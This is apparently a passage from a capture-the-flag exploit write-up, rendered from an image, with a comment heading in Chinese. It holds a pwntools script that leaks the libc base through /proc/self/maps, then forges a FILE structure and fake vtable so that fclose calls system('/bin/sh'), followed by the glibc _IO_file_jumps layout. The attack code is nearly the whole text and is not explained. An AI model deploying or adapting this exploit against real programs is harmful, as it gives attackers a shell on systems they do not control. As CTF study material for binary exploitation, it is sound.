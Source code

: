 ```python
    io.recvuntil(":")
    io.sendline(nm)

def read_file(nm):
    menu(1)
    io.recvuntil(":")
    io.sendline(nm)
    menu(2)
    menu(2)
    menu(3)

# leak libc address 
read_file('/proc/self/maps')
libc_addr = io.recvuntil("r-xp")
libc.address = int(libc_addr.split('-')[-3].split('\n')[1], 16)
log.info("\033[33m" + hex(libc.address) + "\033[0m")


buffer = 0x804b260 # name's address 
pay = '/bin/sh'.ljust(0x20, '\0')
pay += p32(buffer)
pay = pay.ljust(0x48, '\0')
pay += p32(buffer + 0x10) # make lock point to '\x00'
pay = pay.ljust(0x94, '\0')
pay += p32(0x804b2f8 - 0x44) # vtable address,0x44 is fclose's offset 
pay += p32(libc.symbols['system']) # 0x804b260+0x94 + 4 =0x804b2f8 
#gdb.attach(io)
leave_name(pay)
io.interactive()
```

vtable 结构
```python
const struct _IO_jump_t _IO_file_jumps =  
{  
  JUMP_INIT_DUMMY,  
  JUMP_INIT(finish, INTUSE(_IO_file_finish)),  
  JUMP_INIT(overflow, INTUSE(_IO_file_overflow)),  
  JUMP_INIT(underflow, INTUSE(_IO_file_underflow)),  
  JUMP_INIT(uflow, INTUSE(_IO_default_uflow)),  
  JUMP_INIT(pbackfail, INTUSE(_IO_default_pbackfail)),  
  JUMP_INIT(xsputn, INTUSE(_IO_file_xsputn)),
  JUMP_INIT(xsgetn, INTUSE(_IO_file_xsgetn)),  
  JUMP_INIT(seekoff, _IO_new_file_seekoff),  
  JUMP_INIT(seekpos, _IO_default_seekpos),  
  JUMP_INIT(setbuf, _IO_new_file_setbuf), 
  JUMP_INIT(sync, _IO_new_file_sync),  
  JUMP_INIT(doallocate, INTUSE(_IO_file_doallocate)),  
  JUMP_INIT(read, INTUSE(_IO_file_read)),  
  JUMP_INIT(write, _IO_new_file_write),  
  JUMP_INIT(seek, INTUSE(_IO_file_seek)),  
  JUMP_INIT(close, INTUSE(_IO_file_close)),  
  JUMP_INIT(stat, INTUSE(_IO_file_stat)),  
  JUMP_INIT(showmanyc, _IO_default_showmanyc),  
  JUMP_INIT(imbue, _IO_default_imbue)  
};  
```
